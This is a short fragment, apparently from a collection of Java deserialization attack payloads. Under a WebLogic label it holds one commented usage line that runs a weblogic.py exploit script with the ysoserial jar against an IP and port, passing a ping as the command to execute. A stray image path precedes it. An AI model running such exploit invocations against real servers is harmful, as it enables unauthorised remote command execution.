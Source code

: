 # Java deserialization attack payloads
#WEBLOGIC
#python weblogic.py 1.2.3.4 9001 ./ysoserial-0.0.2-all.jar 'ping -n 3 1.2.3.4'

